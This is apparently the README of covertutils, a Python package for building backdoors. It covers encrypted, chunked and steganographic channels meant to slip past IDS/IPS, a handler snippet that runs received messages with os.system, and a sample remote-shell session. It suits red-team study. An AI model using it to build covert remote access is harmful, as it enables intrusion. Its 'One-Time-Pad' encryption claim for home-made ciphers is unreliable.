 # covertutils
## A framework for Backdoor programming!

[![Documentation Status](https://readthedocs.org/projects/covertutils/badge/?version=latest)](http://covertutils.readthedocs.io/en/latest/?badge=latest) [![PyPI version](https://badge.fury.io/py/covertutils.svg)](https://pypi.python.org/pypi/covertutils)          [![GitHub version](https://badge.fury.io/gh/operatorequals%2Fcovertutils.svg)](https://github.com/operatorequals/covertutils) [![Build Status](https://travis-ci.org/operatorequals/covertutils.svg?branch=master)](https://travis-ci.org/operatorequals/covertutils)

[Documentation Page](https://covertutils.readthedocs.io)

[Blog Post in Securosophy describing some internals](https://securosophy.com/2017/04/22/reinventing-the-wheel-for-the-last-time-the-covertutils-package/)

[Arranged Con Presentation about the Package 
(DefCamp #8 | November 9-10)](https://def.camp/speaker/john-torakis/)

### What is it?
This python package automatically handles all communication channel options, like **encryption**, **chunking**, **steganography**, etc.

With all those set with a few lines of code, a programmer can spend time creating the *actual payloads*, *persistense mechanisms*, *shellcodes* and generally **more creative stuff!**!

The security programmers can stop *re-inventing the wheel* by implementing encryption mechanisms both agent-side and handler-side to spend their time to develop more versatile *agents*, and generally feature-full shells!

### Python?
Yes, python, and more specifically **Python2.7** only, for the time being...

### But why Python2?
Several reasons. Mostly because Python2 is **more popular among devices** (*IoT devices*, *old Linux servers*, etc), and backdoor code could run *as-is* on them, without `Freezing`, `Packing`, `PyInstalling`, etc. Backdoors are valuable when they are as cross-platform as possible.
Macs, for example, do not have Python3 installed by default. If you want `covertutils` in Python3, do not complain, read [this reddit flame war dodging](https://www.reddit.com/r/netsec/comments/6rj7b0/a_python_package_for_creating_backdoors_coverutils/) and start PRing...


### Dependencies?
NO! Absolutely no dependencies, only pure python built-ins! The `entropy` package is required for the `tests` though.
This is a package's requirement, to ensure good flow when compiling in executable binaries.


# Summary

## The Entities

### The `Message`
Messages are all things that mean something to the listener. Messages travel through communication channels, and they have to be unaware of the channel they are travelling in. In other words, messages have to be independent of the mean of their transportation.
 *  If the communication channel can handle low length byte-chunks per "burst", the message has to be chunked.
 *  If the communication channel filters certain byte arrays (IDS/IPS, NextGen Firewalls).
 

### The `Stream`
The Stream is a tag that gives certain context to the message. Can be defined and used for arbitrary reasons. Streams, for example, can be used to separate `Shell Commands` from `shellcode` messages.

## The Organizers

### The `Orchestrator`
Orchestrators are the core of data manipulation in `covertutils`. They handle all data transformation methods to translate raw chunks of data into Stream-Message pairs.

### The `Handler`
Handlers tie together the raw byte input/output with the `orchestrators` to provide an interface of:
* `onChunk()`
* `onMessage()`
* `onNotRecognized()`

#### Example :
```python
def onMessage( message, stream ) :
  if stream == 'shell' :
    os.system( message )
```

### The `Shell`
A shell interface with prompt and `stream` control can be spawned from a `Handler` instance with:
``` python

shell = StandardShell(handler, prompt = "(%s:%d)> " % client_addr )
shell.start()
```
```bash
(127.0.0.5:8081)> 
# <Ctrl-C>
Available Streams:
	[ 0] - control
	[ 1] - python
	[ 2] - os-shell
	[99] - Back
Select stream: 2
[os-shell]> uname -a
Linux hostname 4.9.0-kali4-amd64 #1 SMP Debian 4.9.25-1kali1 (2017-05-04) x86_64 GNU/Linux
[os-shell]> !control sysinfo
General:
	Host: hostname
	Machine: x86_64
	Version: #1 SMP Debian 4.9.25-1kali1 (2017-05-04)
	Locale: en_US-UTF-8
	Platform: Linux-4.9.0-kali4-amd64-x86_64-with-Kali-kali-rolling-kali-rolling
	Release: 4.9.0-kali4-amd64
	System: Linux
	Processor: 
	User: unused

Specifics:
	Windows: ---
	Linux: glibc-2.7

[os-shell]> 
# <Ctrl-C>
(127.0.0.5:8081)> q
[!]	Quit shell? [y/N] y
Aborted by the user...

```

### The `Encryption Schemes`
Custom _Stream Ciphers_ are used, designed and implemented from scratch in the `covertutils.crypto` subpackage. Currently a custom _scrambling_ function (`std`) and the standard `CRC32` (`crc`) functions are used to generate the _stream keys_.

The crypto and scrambling algorithms can be tried in the below CLI implementations:

#### Scrambling
``` bash
$ python -m covertutils.crypto.algorithms --length 16 std message_to_digest
f3c7de5e591d2eb7fba938847430e2c0
$ python -m covertutils.crypto.algorithms --length 20 std message_to_digest
413928828205d7af0a5f415f6c0a5014e49c7250
$ python -m covertutils.crypto.algorithms std message_to_digest --length 31
6d9dd92f9eada2611c04a29da18b8b845638aec85d0783617f51dfc72e62ae
$ python -m covertutils.crypto.algorithms std message_to_digest --length 32 --cycles 10
252f9b7175399bae1cb2b02c36f4dbefd5ae6d4971b10f16b25631e45a4efc6c
$ python -m covertutils.crypto.algorithms std message_to_digest --length 32 --cycles 20
4fd94b21d6ee742e7426de512d1565bf1dd1031a1aa9ddd9de263773cfc8888c
$ python -m covertutils.crypto.algorithms std message_to_digest
4fd94b21d6ee742e7426de512d1565bf1dd1031a1aa9ddd9de263773cfc8888c
```

#### Encryption/Decryption
``` bash
$ python -m covertutils.crypto.keys crc keyphrase message_to_encrypt --output b64
SkonjSa1pat95PVhAG9U3DHO
$
$ python -m covertutils.crypto.keys crc keyphrase SkonjSa1pat95PVhAG9U3DHO --input b64 --decrypt
message_to_encrypt
$ #	Change the keyphrase and try to decrypt:
$ python -m covertutils.crypto.keys crc keyphrase2 SkonjSa1pat95PVhAG9U3DHO --input b64 --decrypt
����R��M8�A�q�/�
```

**The `std` algorithm is used by default in all communications.**

## Networking
Networking is not handled by `covertutils`, as python provides great built-in networking API (directly inherited from C). The only requirements for `covertutils` `Handler` instances are **2 functions wrapping the raw data sending and receiving**.

Just pass a `send( raw )` and a `recv()` function to a `Handler` and you have a working *One-Time-Pad* encrypted, bandwidth aware, protocol independent, *password protected*, *multi-usable* channel.

# Further Examples:
Sample TCP/UDP Reverse Shells and TCP Bind Shell scripts can be found in `examples/` directory.

Tutorial and explanation of the architecture can be found in the [CovertUtils Tutorial Restaurant](http://covertutils.readthedocs.io/en/latest/assembling_backdoor.html)!


# Pull Requests?
Certainly! All pull requests that are tested and do not break the existing tests will be accepted!
Especially Pull Requests towards Python2/Python3 compatibility will be greatly appreciated!

